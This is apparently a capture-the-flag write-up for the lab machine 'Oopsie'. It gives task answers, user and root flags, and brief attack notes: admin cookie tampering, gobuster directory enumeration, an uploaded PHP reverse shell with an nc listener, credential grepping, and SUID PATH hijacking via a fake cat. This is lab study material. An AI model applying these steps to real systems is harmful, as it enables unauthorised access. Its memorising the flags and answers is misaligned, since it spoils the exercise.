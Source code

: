 # Oopsie

> Task 1 -  With what kind of tool can intercept web traffic? 

```
proxy
```

> Task 2 -  What is the path to the directory on the webserver that returns a login page? 

```
/cdn-cgi/login
```

> Task 3 -  What can be modified in Firefox to get access to the upload page?

```
cookie
```

> Task 4 -  What is the access ID of the admin user? 

```
34322
```

> Task 5 -  On uploading a file, what directory does that file appear in on the server? 

```
/uploads
```

> Task 6 -  What is the file that contains the password that is shared with the robert user? 

```
db.php
```

> Task 7 - What executible is run with the option "-group bugtracker" to identify all files owned by the bugtracker group?

```
find
```

> Task 8 - Regardless of which user starts running the bugtracker executable, what's user privileges will use to run?

```
root
```

> Task 9 -  What SUID stands for?

```
set owner user id
```

> Task 10 -  What is the name of the executable being called in an insecure manner?

```
cat
```

> Submit user flag

```
f2c74ee8db7983851ab2a96a44eb7981
```

> Submit root flag

```
browser
  proxy in burp to get /cgi/bin page
  http://$IP/cdn-cgi/login/admin.php?content=accounts&id=1 - gives admin
  modify cookie
    role - admin
    user - 34322
  upload rev-shell.php
gobuster to find the dirs - 
  ./gobuster dir --url http://${IP}/ --wordlist ../SecLists/Discovery/Web-Content/directory-list-2.3-small.txt -x php
reverse shell
  nc -nvlp 9999
  browser - http://$IP/uploads/rev-shell.php 
  python3 -c 'import pty;pty.spawn("/bin/bash")'
  ctrl-z and stty raw -echo && fg

www-data@oopsie:/var/www/html/cdn-cgi/login$ cat * | grep -i password
cat /etc/passwd | grep 'sh$'
  root:x:0:0:root:/root:/bin/bash
  robert:x:1000:1000:robert:/home/robert:/bin/bash
www-data@oopsie:/var/www/html/cdn-cgi/login$ cat * | grep robert
  $conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
su - robert -> user.txt
robert@oopsie:~$ id
  uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
find / -group bugtracker 2>/dev/null --> /usr/bin/bugtracker
file /usr/bin/bugtracker
ls -lart /usr/bin/bugtracker
create /tmp/cat, chmod +x cat, append to path then run /usr/bin/bugtracker from /tmp, as root then less root.txt
```

```
af13b0bee69f8a877c3faf667f7beacf
```

